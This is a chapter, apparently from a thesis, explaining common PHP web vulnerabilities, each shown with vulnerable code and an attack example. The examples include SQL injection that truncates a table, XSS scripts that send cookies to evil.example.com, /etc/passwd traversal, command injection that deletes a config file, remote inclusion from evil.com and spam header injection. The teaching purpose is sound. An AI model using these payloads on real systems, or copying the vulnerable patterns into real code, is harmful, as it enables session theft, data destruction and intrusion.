\chapter{Vulnerabilities in PHP Web Applications}
\label{vulnerabilities}

The vulnerabilities in this chapter are divided into two parts: Tainted object propagation problems (which potentially can be found by tainted object propagation scanners like Pixy), and problems of other types (for which other tools are more helpful, or which usually are found through code inspection by a human).

This list of vulnerabilities is by no means complete, but should cover the most common vulnerabilities found in PHP web applications (according to the author's experience as a member of the TYPO3 Security Team since 2008~\cite{security-team-members}). The code examples are all by the author.

\paragraph{Note:} The URLs of all examples in this section are not URL-encoded to make them easier to read. In real life, the URL would be URL-encoded, \eg spaces would be encoded as \texttt{\%20}.

\section{The ``Common Weakness Enumeration'' List}
\index{Common Weakness Enumeration}\index{CWE \see{Common Weakness Enumeration}}
The \emph{Common Weakness Enumeration (CWE)}~\cite{cwe} is a widely-used formal list of software vulnerabilities that strives to serve as a common language for the vulnerabilities. This list includes extensive information on the vulnerability, including examples of vulnerable code, tips for mitigation, and information on whether this type of vulnerability can be found using dynamic or static program analysis. Organizations like Apple, Coverity or IBM make use of this list and provide tools that are compatible with it~\cite{cwe-organizations}.

The CWE issues a yearly list of the ``Top 25 Most Dangerous Software Errors''~\cite{cwe-top-25} which includes many of the issues listed here. This list---based on a survey of a selected number of organizations---includes the ``top issues'' both concerning how critical they are as well as how widespread they are. Nevertheless, it does not cover all types of vulnerabilities listed in this section due to its focus on web applications written in PHP, whereas the top 25 list is intended to cover web applications in all languages.

All in all, the CWE contains 909 entries and should cover most types of vulnerabilities.~\cite{cwe-all}

\section{Tainted Object Propagation Vulnerabilities}
\index{tainted object propagation vulnerabilities}\label{tainted-object-propagation}

The term \emph{tainted object propagation vulnerabilities}~\cite{finding-security-vulnerabilities} refers to a class of problems where untrusted data is used without sanitizing it properly for the context which it is to be used in. There are already some (documented) approaches to generally detecting these problems in web applications. Pixy as a scanner for tainted object propagation vulnerabilities currently is able to find SQL injection and reflective cross-site scripting.

\myTable{
\begin{tabular}{|l|l|l|l|}
\hline
\bb{Vulnerability} & \bb{Top 25} & \bb{CWE ID} & \bb{Literature}\\
\hline
SQL injection & \#1 & CWE-89 & \cite{sql-injection-definition, blindfolded-sql-injection, advanced-sql-injection, typo3-security-guide}\\
\hline
Cross-site scripting & \#4 & CWE-79 & \cite{xss-cert, xss-definition, typo3-security-guide,kunz-esser}\\
\hline
HTTP response splitting & --- & CWE-113 & \cite{kunz-esser}\\
\hline
Directory traversal, & \#13 & CWE-22 & \cite{path-traversal-definition}\\
path traversal & & & \\
\hline
OS command injection & \#2 & CWE-78 &  \cite{command-injection-definition}\\
\hline
PHP file inclusion, & --- & CWE-98 & \cite{code-injection-definition, typo3-security-guide}\\
remote code injection, &  & & \\
remote command execution &  & & \\
\hline
E-mail header injection, & --- & CWE-93 &  \cite{kunz-esser}\\
spam via e-mail forms &  & & \\
\hline
\end{tabular}
}{Selected tainted object propagation vulnerabilities}{table:tainted-vulnerabilities}

\subsection{SQL Injection}
\label{sql-injection}\index{SQL injection}
An SQL injection vulnerability exists if a string from an external source is directly used in an SQL query. This is an example of vulnerable code:

\begin{phpcode}
$queryResult = mysql_query(
  'SELECT * FROM posts WHERE uid = ' . $_GET['postUid'] . ';'
);
\end{phpcode}

An attacker would use a URL like this:

\begin{textcode}
http://example.com/blog.php?postUid=1;TRUNCATE TABLE posts
\end{textcode}

This URL then would result in the following SQL getting executed:

\begin{sqlcode}
SELECT * FROM posts WHERE uid = 1;TRUNCATE TABLE posts;
\end{sqlcode}

This effectively deletes all records from the \texttt{posts} table.

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=\textwidth]{images/exploits_of_a_mom}
    \caption{Cross-site scripting once even was made the subject of the popular geek web comic \emph{xkcd}. This comic strip was used with permission. It is available online at \url{http://xkcd.com/327/}.\index{xkcd}}
    \label{fig:exploits-of-a-mom}
  \end{center}
\end{figure}

\subsection{Cross-Site Scripting (XSS)}
\label{xss}\index{cross-site scripting}\index{XSS \see{cross-site scripting}}
Cross-site-scripting (XSS) means that a string (or generally some data) from an external source is used in the website output, allowing to inject HTML, JavaScript or (seldom) XML. This provides an attacker with leverage for attacks such as sending the current cookies to a malicious site. The cookie then can be used for session hijacking.

There are two variants of XSS: \emph{reflective XSS}, where the malicious data is directly transmitted without having been stored, \eg via a URL, and \emph{persistent XSS}, where the malicious data gets stored in a database or a file.

In April 2010, the Apache Foundation reported an incident where an XSS vulnerability was used for a series of attacks that resulted in an attacker gaining root privileges for a server. \cite{apache-incident-report}


\subsection{Reflective XSS}
\index{reflective cross-site scripting}\index{reflective XSS \see{reflective cross-site scripting}}
Reflective cross-site scripting is a variant of XSS which enables the malicious output to come directly from the input without being stored in the database or file system. Thus, loading the page from a non-malicious link will not show the malicious code. This is a simple example of vulnerable code:

\begin{phpcode}
$output = 'Thank you for sending an e-mail to ' . $_POST['email'] . '.';
\end{phpcode}

The URL used by an attacker then could look like this:

\begin{textcode}
http://example.com/blog.php?email=<script>image=new Image();
  image.src="http://evil.example.com/?c="+document.cookie</script>
\end{textcode}

This results in sending the current cookies\index{cookies} to a (potentially) malicious server, allowing an attacker to hijack the user's current session (also called \emph{session riding}).\index{session riding}\index{session hijacking}

XSS opens the gates to many kinds of attacks. For example, it is possible to read the passwords from a login form after they have automatically been filled in by the browser's password storage. It also allows reading the clipboard content and sending it to another server.

Even the web site of the German government was susceptible to this type of vulnerability.~\cite{xss-bundesregierung}


\subsection{Persistent XSS}
\label{persistent-xss}\index{persistent cross-site scripting}\index{persistent XSS \see{persistent cross-site scripting}}

Persistent cross-site scripting (persistent XSS) is a variant of the XSS vulnerability. It refers to the case when untrusted data is first stored in the file system or database, and some other part of the application then uses the stored data for output, thus inserting the malicious data in the output---even if the page is loaded from a clean URL. This is a lot harder to find via tainted object propagation due to the database being between the source and the sink, causing the source and the sink to come into action during separate requests. One way to make this detectable would be to mark data from the database as basically untrusted, which however might increase the number of false positives.

This is an example of vulnerable code:

\begin{phpcode}
$postData = $this->retrievePostFromDatabase($postUid);
$output = '<h3>' . $postData['title'] . '</h3>';
\end{phpcode}

An attacker could use the post submission form and enter a title like this:

\begin{htmlcode}
<script>
  image = new Image();
  image.src = "http://evil.example.com/?c=" + document.cookie;
</script>
\end{htmlcode}

This code would send the site's current cookies\index{cookies} to the server \texttt{evil.example.com}. The cookies can include the user's current session ID, which would allow the attacker to use the session ID for conducting a session-riding attack (which is also called ``session hijacking'').~\cite{kunz-esser}\index{session riding}\index{session hijacking}

\subsection{HTTP Response Splitting}
\label{http-response-splitting}\index{HTTP response splitting}

An HTTP response splitting attack is based on code allowing unsanitized CRLF (0x0d0a) character combinations to be included in HTTP headers, thus creating multiple headers.

However, as of PHP versions 4.4.2 and 5.1.2, the \texttt{header()} function only allows one header at a time, thus preventing header injection attacks. \cite{php-manual-header}\index{header()}


\subsection{Directory Traversal/Path Traversal}
\label{directory-traversal}\index{directory traversal}\index{path traversal}

Directory traversal (also known as \emph{path traversal}) is possible if a vulnerable application includes or outputs a file using a path that comes from an untrusted source. If the application does not check that the path is relative and does not contain two dots (\texttt{..}) (directly or URL-encoded), it is possible to read or overwrite files that should not be visible, \eg \texttt{/etc/passwd/} or the file with the database credential of the application.

This is an example of vulnerable code:

\begin{phpcode}
echo $createHeader();
if (isset($_GET['file']) && ($_GET['file'] != '')
  && is_file($_GET['file'])
) {
  echo file_get_contents($file);
}
echo $createFooter();
\end{phpcode}

An attack URL could look like this:

\begin{textcode}
http://www.example.com/index.php?file=../../../etc/passwd
\end{textcode}


This would result in \texttt{/etc/passwd} (the file containing the login names of all system users) being displayed. (For this attack to work, the file needs to be readable by the web server user.)


\subsection{OS Command Injection}
\label{os-command-injection}\index{OS command injection}
OS command injection is based on malicious input getting in while executing shell commands.\index{shell commands} Vulnerable code could look like this:

\begin{phpcode}
echo $createHeader();
if (isset($_GET['file']) && ($_GET['file'] != '')
  && is_file($_GET['file'])
) {
  exec('touch ' . $file)
}
echo $createFooter();
\end{phpcode}

An attacker then would use a URL like this:

\begin{textcode}
http://www.example.com/index.php?file=file & rm ../../config.php
\end{textcode}

Calling this URL would delete the application's configuration file because the command that is encoded in the URL and that will be executed actually will be this:

\begin{textcode}
touch file & rm ../../config.php
\end{textcode}


\subsection{PHP File Inclusion, Remote Code Injection, Remote Command Execution}
\label{remote-command-injection}\index{PHP file inclusion}\index{remote code injection}\index{remote command execution}

PHP file inclusion (also known as \emph{remote code injection} or \emph{remote command execution}) is a PHP-specific vulnerability that occurs when a PHP script includes another script file and takes the path of the file to include from an untrusted source. Depending on the configuration of the system, the path of the file to include may also be a remote URL, thus making this kind of vulnerability possible in the first place.

This is an example of vulnerable code:

\begin{phpcode}
echo $createHeader();
if (isset($_GET['file']) && ($_GET['file'] != '')
  && is_file($_GET['file'])
) {
  include($file);
}
echo $createFooter();
\end{phpcode}

An attacker then could place some malicious code as a text file on some server (for example, at \texttt{http://evil.com/evil.txt}) and then use an URL like this to include that file:

\begin{textcode}
http://www.example.com/index.php?file=http://evil.com/evil.txt
\end{textcode}

As a result, this URL will include and execute the PHP contained in the remote file.


\subsection{E-Mail Header Injection}
\label{header-injection}\index{e-mail header injection}\index{mail header injection \see{e-mail header injection}}

E-Mail header injection is an attack that makes use of e-mail forms or other mail functionality that uses untrusted data in e-mail header fields (like \texttt{From:}, \texttt{To:}, \texttt{Cc:} or \texttt{Subject:}).

If header-relevant data in contact forms (such as the sender's name or the subject) is not sanitized of linefeeds or carriage returns\index{linefeeds}\index{carriage returns}, it is possible to include additional header lines like bcc:, allowing the form to be misused for sending SPAM e-mails.

The code of a vulnerable e-mail form could look like this:

\begin{phpcode}
mail(
  'sales@example.com',
  $_POST['email_subject'],
  $_POST['email_body'],
  'From: ' . $_POST['email_address']
);
\end{phpcode}

An attacker then could forge a POST request---either using a HTML file that includes a form or via some program---and include a complete e-mail into the subject field via the \texttt{email\_subject} POST data:

\begin{textcode}
Buy cheap Viagra!\r\nTo: some-spam-victim@example.org\r\n
  Bcc: other-victim@example.org, other-victim-2@example.org\r\n
  Buy cheap Viagra here: http://spamsite.example.com/\r\n
\end{textcode}

This would result in the following e-mail being sent (headers and body):

\begin{textcode}
From: requester@example.com (sender e-mail addres from POST data)
Subject: Buy cheap Viagra!
To: some-spam-victim@example.org
Bcc: other-victim@example.org, other-victim-2@example.org
Buy cheap Viagra here: http://spamsite.example.com/

To: sales@example.com

(e-mail body from POST data)
\end{textcode}



\section{Problems not Detectable by Tainted Object Propagation Scanners}
The following problems do not rely on a direct connection between data sources\footnote{Please see section~\ref{tainting} on page~\pageref{tainting} for details on tainted object propagation, sources and sinks.} and sinks to be exploitable. Thus, they cannot be found using a tainted object propagation scanner. Note that this list is not considered to be complete---these are just some common examples.

\myTable{
\begin{tabular}{|l|l|l|l|}
\hline
\bb{Vulnerability} & \bb{Top 25} & \bb{CWE ID} & \bb{Literature}\\
\hline
Information disclosure, & --- & CWE-200 & \cite{information-exposure-definition, typo3-security-guide}\\
information exposure & & & \\
\hline
Full path disclosure & --- & CWE-211 & \cite{kunz-esser}\\
\hline
Cross-site request forgery & \#12 & CWE-352 & \cite{csrf-definition, kachel, csrf-owasp, typo3-security-guide}\\
\hline
Open Redirect & \#22 & CWE-601 & \cite{open-redirect-google}\\
\hline
\end{tabular}
}{Some problems not detectable by tainted object propagation scanners}{table:other-vulnerabilities}


\subsection{Information Disclosure/Information Exposure}
\label{information-disclosure}\index{information disclosure}\index{information exposure}
Information disclosure (also known as \emph{information exposure}) emerges when an application discloses internal information like database user names or the executed SQL, \eg in error messages or HTML comments.

This is an example of vulnerable code:

\begin{phpcode}
public function query($sql) {
  $queryResult = $this->link->query($sql);
  if ($queryResult === FALSE) {
    echo 'The following query has failed: ' . htmlspecialchars($query);
    die();
  }

  return $queryResult;
}
\end{phpcode}

The attacker then would need to find a bug in the web application that causes the query to fail. This would expose table names and possible column names, providing valuable information for other attacks like SQL injection (see page~\pageref{sql-injection}).

Apart from the code itself being vulnerable, having PHP configured with \texttt{display\_errors = On}\index{display\_errors} makes the complete installation vulnerable as this causes any error messages from PHP to be output directly on the web page.


\subsection{Full Path Disclosure}
\label{path-disclosure}\index{full path disclosure}

\emph{Full path disclosure} vulnerabilities are a subset of the \emph{information disclosure} class of vulnerabilities. It refers to an application disclosing the full path of the application or file, for example in error messages.

This is an example of vulnerable code:

\begin{phpcode}
public function readFile($path) {
  $fileResource = fopen($path, 'r');
  if ($fileResource === FALSE) {
    echo 'Error opening file: ' . htmlspecialchars($path);
    die();
  }

  $fileContents = fread($fileResource, filesize($path));
  fclose($fileResource);

  return $fileContents;
}
\end{phpcode}

If the attacker finds a case of a file not being readable, this would expose the path to the file---and thus to the general location of the application's files.  This would provide the attacker with data helpful for a path traversal attack (page~\pageref{directory-traversal}).


\subsection{Cross-Site Request Forgery (CSRF/XSRF)}
\label{xscr,csrf}\index{cross-site request forgery}\index{CSRF \see{cross-site request forgery}}\index{XSRF \see{cross-site request forgery}}\index{session}
Cross-site request forgery (CSRF/XSRF) means that the current user session of a web application (e.g., in an open browser tab) is misused to execute certain actions on that site via malicious links, \eg sending SPAM, changing the user's password or deleting their profile.

A common protection against a CSRF attack is requiring a session token\index{session token}\index{token \see{session token}} to be submitted together with the request. This token is unique to the current user session and usually not visible to the user. An attacker would need to retrieve the current session token, and merely submitting a fixed URL with a request would not work anymore. Facebook and TYPO3 C;S use the token technique.~\cite{facebook-tokens, typo3-csrf}\index{Facebook}\index{TYPO3 CMS}

The danger of CSRF is greatly increased if the site is susceptible to cross-site scripting\index{cross-site scripting} since being able to execute JavaScript in the target web site's context would allow an attacker to retrieve the current token.


\subsection{Open Redirect}
\label{open-redirect}

A web application is susceptible to an open redirect attack if it uses untrusted data as the source for a redirect. This is an example of vulnerable code:

\begin{phpcode}
header('Location: ' . $_GET['redirect_url']);
\end{phpcode}
\index{header()}

The URL of an attack could look like this:

\begin{textcode}
http://www.example.com/this/is/some/long/path.html
  ?some_parameter=.....................................................
  &redirect_url=http://phishing.example.com
\end{textcode}

This would allow an attacker to lure a user first onto a legit site (as the first part of the URL is a legit, albeit vulnerable site) and then redirect the user to some phishing site.

This attack is hard to scan for automatically because some redirects may be valid (and not vulnerable). To protect against this type of attack, white-listing is the recommended approach for validation.\index{validation} Validation, however, is not the same as sanitation\index{sanitation}, and currently cannot be scanned for using a tainted object propagation scanner.


\section{How to Lure Users onto Untrusted URLs}
Most of the attacks listed here base on a user opening a crafted URL in a browser (either directly in the URL bar or indirectly via a document that loads or includes another URL), containing malicious content. There are several techniques used to obfuscate the malicious nature of a URL:

\subsection{Image Tags}
\index{image tags}
An image tag that loads some URL could look like this:

\begin{htmlcode}
<img src="http://example.com/?foo=evilScript"
  width="0" height="0" style="display: none;" />
\end{htmlcode}

For this attack vector to work, the loaded script does not necessarily need to return real image data---empty data will work as well.


\subsection{Iframes}
\index{iframes}
An iframe tag that loads some URL as HTML could look like this:

\begin{htmlcode}
<iframe src="http://example.com/?foo=evilScript"
  width="0" height="0" style="display: none;">
</iframe>
\end{htmlcode}

\subsection{URL Shortening Services}
\index{URL shortening services}\index{bit.ly \see{URL shortening services}}\index{tinyurl \see{URL shortening services}}\index{goo.gl \see{URL shortening services}}
URL shortening service like bit.ly, tinyurl or goog.gl are particularly commonly used in Twitter messages. Those services redirect to a longer URL that is stored for the short link. Shortened URLs for \url{http://www.google.de/} would look like this:

\begin{textcode}
 http://bit.ly/4NuEFt
 http://tinyurl.com/yg7p6l7
 http://goo.gl/HKEkX
\end{textcode}

Without browser add-ons, it is not possible to see where a shortened (and thus also obfuscated) URL might lead.

\subsection{Encoded URL Parameters}
\index{encoded URL parameters}\index{URL encoding \see{encoded URL parameters}}
URL parameters may be encoded in several ways to make suspiciously-looking parts look less fishy. In the following example, \texttt{<script} is included in the URL in an encoded way.

\begin{textcode}
http://example.com/?foo=&#60;&#115;&#99;&#114;&#105;&#112;&#116;...
\end{textcode}
